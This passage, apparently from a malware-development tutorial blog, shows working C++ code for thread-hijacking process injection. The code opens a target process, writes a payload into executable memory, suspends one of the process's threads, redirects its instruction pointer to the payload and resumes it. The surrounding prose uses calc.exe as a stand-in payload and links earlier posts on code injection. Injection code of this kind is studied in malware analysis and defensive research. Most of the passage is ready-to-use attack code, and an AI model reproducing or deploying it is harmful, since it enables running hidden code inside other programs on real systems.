 ```cpp
    te.dwSize = sizeof(THREADENTRY32);

    ph = OpenProcess(PROCESS_ALL_ACCESS, FALSE, (DWORD)pid);

    if (ph == NULL) {
      printf("OpenProcess failed! exiting...\n");
      return -2;
    }

    // allocate memory buffer for remote process
    rb = VirtualAllocEx(ph, NULL, my_payload_len, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // write payload to memory buffer
    WriteProcessMemory(ph, rb, my_payload, my_payload_len, NULL);

    // find thread ID for hijacking
    hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPTHREAD, NULL);
    if (Thread32First(hSnapshot, &te)) {
      do {
        if (pid == te.th32OwnerProcessID) {
  	  ht = OpenThread(THREAD_ALL_ACCESS, FALSE, te.th32ThreadID);
          break;
  	}
      } while (Thread32Next(hSnapshot, &te));
    }

    // suspend target thread
    SuspendThread(ht);
    GetThreadContext(ht, &ct);
    // update register (RIP)
    ct.Rip = (DWORD_PTR)rb;
    SetThreadContext(ht, &ct);
    ResumeThread(ht);

    CloseHandle(ph);
  }
  return 0;
}
```

As usually, for simplicity, we use 64-bit `calc.exe` as the payload.

As you can see, for finding process by name I used a function `findMyProc` from my past [post](/pentest/2021/09/29/findmyprocess.html). Then, the `main` function is like my code from [this post](/tutorial/2021/09/18/malware-injection-1.html) about "classic" code injection to remote process. The only difference in logic: we hijack remote thread instead creating new one.

The flow is this technique is: firstly, we find the target process:

![code injection 2](/assets/images/24/2021-11-24_01-49.png){:class="img-responsive"}    
